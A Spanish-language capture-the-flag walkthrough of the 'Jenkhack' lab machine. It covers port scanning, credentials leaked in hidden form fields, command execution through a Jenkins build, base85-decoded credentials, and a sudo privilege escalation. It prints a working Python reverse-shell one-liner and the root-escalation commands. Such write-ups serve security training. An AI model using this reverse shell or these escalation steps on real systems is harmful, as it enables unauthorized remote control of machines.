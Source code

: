 ```yaml
---
description: '🧠Dificultad: Fácil | 🔓29/06/2025'
---
```


# Jenkhack

Con un `nmap` vemos los puertos abiertos de la máquina. Todos son relacionados con servicios web.

<figure><img src="../../.gitbook/assets/Pasted image 20250628001136.png" alt=""><figcaption></figcaption></figure>

Si accedemos a la web del puerto 80, no encontramos ninguna funcionalidad ni botones relevantes.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628001225.png" alt=""><figcaption></figcaption></figure></div>

Procedemos a echarle un vistazo a la página https, donde nos encontramos un formulario de login.

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628001419.png" alt="" width="419"><figcaption></figcaption></figure></div>

En el puerto 8080 se encuentra el mismo formulario, solo que sin https. Encontramos unos campos ocultos en el código fuente de la primera web que examinamos:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628002042.png" alt=""><figcaption></figcaption></figure></div>

Si utilizamos de credenciales `user = jenkins-admin` y `password = cassandra`, nos da acceso a un panel de administración:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628002205.png" alt=""><figcaption></figcaption></figure></div>

La página tiene un proyecto llamado `admin`. Este proyecto tiene una función para correr una build que nos permite ejecutar el código que queramos. Esto se conoce porque por defecto ejecuta un `whoami` que se puede configurar en otra sección del panel.

<figure><img src="../../.gitbook/assets/Pasted image 20250628002817.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Pasted image 20250628002516.png" alt=""><figcaption></figcaption></figure>

Si cambiamos este `whoami` por una reverse shell, podemos tener acceso al user de la máquina. En este caso, las reverse shell típicas de `bash -i` no funcionaban, así que opté por una reverse shell en `python`:

```bash
export RHOST="172.17.0.1";export RPORT=9001;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628003721.png" alt=""><figcaption></figcaption></figure></div>

Una vez dentro de la máquina, si nos acordamos al principio, teníamos información que podía ser relevante y no hemos usado. Esto es, el dominio `jenkhack.hl`. Buscando en `/var/www/` encontramos la carpeta de este dominio oculto:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628010416.png" alt=""><figcaption></figcaption></figure></div>

Si accedemos, encontramos un fichero con unas credenciales que al parecer están codificadas.

<figure><img src="../../.gitbook/assets/Pasted image 20250628010503.png" alt=""><figcaption></figcaption></figure>

Si pasamos la contraseña por la herramienta [CyberChef](https://gchq.github.io/CyberChef/):

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628010701 (1).png" alt=""><figcaption></figcaption></figure></div>

Vemos que estaba codificada en `base85`. Utilizamos la contraseña y el usuario para loguearnos desde dentro de la máquina:

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628010837.png" alt=""><figcaption></figcaption></figure></div>

Vamos a ejecutar `sudo -l` para ver qué permisos tenemos:

```bash
jenkhack@3c48dd6f4804:~$ sudo -l
Matching Defaults entries for jenkhack on 3c48dd6f4804:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User jenkhack may run the following commands on 3c48dd6f4804:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash
```

El usuario `jenkhack` tiene permiso para ejecutar `/usr/local/bin/bash` como cualquier usuario, sin necesidad de contraseña (`NOPASSWD`). Analizando este binario, encontramos lo siguiente:

```bash
jenkhack@3c48dd6f4804:~$ /usr/local/bin/bash
Welcome to the bash application!
Running command...
This is the bash script running.
```

<figure><img src="../../.gitbook/assets/Pasted image 20250628011351.png" alt=""><figcaption></figcaption></figure>

Este binario ejecuta un script de bash que podemos modificar para que ejecute lo que queramos. Como no nos deja modificarlo porque no podemos correr `nano` con `sudo`, podemos borrarlo y crear uno nuevo:

```bash
echo 'exec /bin/bash' > /opt/bash.sh
chmod +x /opt/bash.sh 
sudo /usr/local/bin/bash
```

<div align="left"><figure><img src="../../.gitbook/assets/Pasted image 20250628012355.png" alt=""><figcaption></figcaption></figure></div>
